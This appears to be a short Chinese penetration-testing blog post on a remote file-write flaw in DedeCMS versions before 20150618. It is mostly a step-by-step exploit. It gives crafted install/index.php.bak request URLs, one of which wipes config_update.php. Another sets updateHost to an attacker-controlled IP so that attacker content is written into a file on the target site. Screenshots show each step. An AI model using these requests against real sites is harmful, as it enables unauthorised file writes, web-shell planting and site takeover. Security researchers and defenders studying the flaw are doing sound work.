 +++
date = "2016-08-05T23:29:20+08:00"
description = ""
draft = false
tags = ["dedecms"]
title = "Dedecms远程写文件漏洞"
topics = ["Pentest"]

+++

### 0x00 关于漏洞
```
Dedecms在20150618之前的版本都存在远程写文件漏洞，主要起因是Apache的解析漏洞
```

### 0x01 利用条件
```
dedecms版本为20150618之前的  
安装目录install下的index.php.bak文件未被删除
```

### 0x02 实例
* 查看cms版本
![查看织梦cms版本](/img/post/dedecms_before_20150617_check_version.png)

* 清空文件
```php
http://www.xxxx.com/install/index.php.bak?step=11&insLockfile=a
&s_lang=a&install_demo_name=../data/admin/config_update.php
访问上面的链接会使服务器到http://updatenew.dedecms.com/base-v57/dedecms/
demodata.a.txt中读取内容写入到config_update.php，但demodata.a.txt为空，
所以就清空了config_update.php
```
![清空文件config_update](/img/post/dedecms_before_20150617_clear_config_update.png)

* 在自己的服务器上创建文件
![在自己的服务器上构造文件](/img/post/dedecms_before_20150617_construction_file.png)

* 写入文件
```
访问http://www.xxxx.com/install/index.php.bak?step=11&insLockfile=a
&s_lang=a&install_demo_name=info.php&updateHost=http://123.123.123.123/
将自己的网站的dedecoms/demodata.a.txt写入到目标站点的install/下的info.php中
```
![将自己构造的内容写入到文件](/img/post/dedecms_before_20150617_write_file.png)

* 访问生成的文件
![访问写入我们内容的文件](/img/post/dedecms_before_20150617_visit_written_file.png)
